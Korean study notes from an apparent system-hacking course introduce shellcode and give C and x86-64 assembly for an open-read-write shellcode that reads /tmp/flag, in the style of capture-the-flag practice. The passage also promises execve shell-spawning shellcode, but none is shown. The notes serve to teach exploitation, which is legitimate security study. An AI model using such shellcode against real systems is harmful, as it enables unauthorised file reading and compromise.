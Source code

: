 # STAGE 4 Shellcode

# Exploit Tech: Shellcode

## 1. 서론

### 들어가며

- 해킹 분야에서 상대 시스템을 공격하는 것을 익스플로잇(Exploit)이라고 부름
    - 시스템 해킹의 익스플로잇과 관련된 총 9가지 공격 기법 소개
- 첫 번째 공격기법 : 셸코드

### 셸코드

- **셸코드(Shellcode)** 는 익스플로잇을 위해 제작된 어셈블리 코드 조각
    - 일반적으로 셸을 획득하기 위한 목적으로 셸코드를 사용해서, “셸”이라는 접두사가 붙음
    - 셸을 획득하는 것은 시스템 해킹의 관점에서 매우 중요
- rip를 셸코드로 옮길 수 있으면 원하는 어셈블리 코드가 실행되게 할 수 있음
    - 어셈블리어는 기계어와 거의 일대일 대응되므로 사실상 원하는 모든 명령을 CPU에 내릴 수 있게 됨
- 셸코드는 어셈블리어로 구성되므로 공격을 수행할 대상 아키텍처와 운영체제에 따라, 그리고 셸코드의 목적에 따라 다르게 작성
    - 최적의 셸코드는 일반적으로 직접 작성
    - [Shellcodes database for study cases](http://shell-storm.org/shellcode/index.html)
- **파일 읽고 쓰기(open-read-write, orw)**, **셸 획득(execve)** 과 관련된 셸코드를 살펴볼 것

## 2. orw 셸코드

### orw 셸코드 작성

```c
char buf[0x30];

int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);
```

```nasm
;Name: S4_00_orw.s

push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)

mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)

mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```
